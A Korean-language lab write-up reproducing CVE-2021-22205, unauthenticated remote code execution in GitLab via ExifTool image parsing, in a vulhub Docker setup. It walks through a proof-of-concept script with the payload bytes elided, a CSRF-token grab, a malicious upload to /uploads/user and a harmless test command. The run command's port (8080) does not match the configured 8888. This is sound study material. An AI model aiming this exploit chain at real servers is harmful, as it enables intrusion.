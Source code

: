 ## 1.  취약점 요약

**취약점 종류**: 인증되지 않은 이미지 업로드 기능을 통한 원격 코드 실행 (Unauthenticated RCE)

**대상**: GitLab CE/EE 11.9 이상 ~ 13.10.3 이하 버전

**원인**: GitLab이 이미지 파일 업로드 시 내부적으로 사용하는 `ExifTool`의 취약점을 적절히 검증하지 않고 호출하여, 악의적으로 조작된 이미지 파일을 통해 서버 측에서 임의 명령어가 실행되는 문제.

## 2. 환경 구성 및 실행

### 2.1 Docker 환경 준비

```
git clone https://github.com/vulhub/vulhub.git
cd vulhub/gitlab/cve-2021-22205
docker compose up -d
```

- **GitLab 접속 URL**: `http://localhost:8888`
- **초기 설정**: 회원가입은 필요 없음 (Unauthenticated 공격)

### 2.2 docker-compose.yml 요약

```
version: '3'
services:
  gitlab:
    image: gitlab/gitlab-ce:13.10.3-ce.0
    ports:
      - "8888:80"
    depends_on:
      - redis
      - postgresql
    environment:
      GITLAB_OMNIBUS_CONFIG: |
        external_url 'http://localhost:8888'
  redis:
    image: redis:latest
  postgresql:
    image: postgres:latest
    environment:
      POSTGRES_PASSWORD: password
```

- GitLab 13.10.3 버전 사용.
- Redis와 PostgreSQL 의존성 컨테이너 포함.

![Image](https://github.com/user-attachments/assets/abc2c8cd-0f54-4ab7-b95e-84809b321399)
![Image](https://github.com/user-attachments/assets/54169746-44c2-4d18-922a-b09b3c58c914)

### 2.3 poc.py 코드 분석

### (1) 기본 설정

```
import sys
import re
import requests

# 명령줄 인자 입력 받음
target = sys.argv[1]   # 대상 GitLab URL
command = sys.argv[2]  # 서버에서 실행할 명령어

session = requests.session()
CSRF_PATTERN = re.compile(rb'csrf-token" content="(.*?)" />')
```

- `target`: 공격 대상 GitLab 서버 URL
- `command`: 서버에서 실행하고 싶은 명령어 (예: `touch /tmp/success`)

### (2) 악성 페이로드 생성

```
def get_payload(command):
    rce_payload = b'...'  # 바이너리 조작
    rce_payload += command.encode()
    rce_payload += b'...'
    return rce_payload
```

- 내부에 명령어를 포함한 악성 데이터 생성.
- ExifTool 파싱 중 명령어가 실행되도록 설계.

### (3) CSRF 토큰 획득

```
def csrf_token():
    response = session.get(f'{target}/users/sign_in', headers={'Origin': target})
    g = CSRF_PATTERN.search(response.content)
    assert g, 'No CSRF Token found'
    return g.group(1).decode()
```

- GitLab은 파일 업로드 시 CSRF 토큰을 요구.
- 로그인은 필요 없지만, 토큰은 반드시 포함해야 정상 업로드 가능.

### (4) 익스플로잇 수행

```
def exploit():
    files = [('file', ('test.jpg', get_payload(command), 'image/jpeg'))]
    session.post(f'{target}/uploads/user', files=files, headers={'X-CSRF-Token': csrf_token()})
```

- 조작된 이미지 파일을 `/uploads/user` 엔드포인트로 업로드하여 서버 측 코드 실행 유도.

### 2.4 PoC 실행

1. 공격용 명령어를 설정하여 실행:

```
python poc.py http://localhost:8080 "touch /tmp/success"
```

1. GitLab 서버 컨테이너 안으로 진입:

```
docker ps
docker exec -it <gitlab-container-id> bash
```

1. `/tmp` 디렉토리 안을 확인하여 성공 여부 검증:

```
ls /tmp
```

> success 파일이 존재하면, 명령어 실행(RCE)이 성공한 것.
> 

![Image](https://github.com/user-attachments/assets/7c3ad6ca-6b61-446b-a77f-e71d9f039353)

### 정리

- 단순한 이미지 업로드 기능이라도, **파일의 내용을 어떻게 처리하는지에 따라 심각한 보안 위협**이 발생할 수 있다.
- 인증 없이 파일 업로드만으로 공격이 가능하다는 점에서, **외부 입력에 대한 검증 부족의 위험성**을 실감할 수 있었다.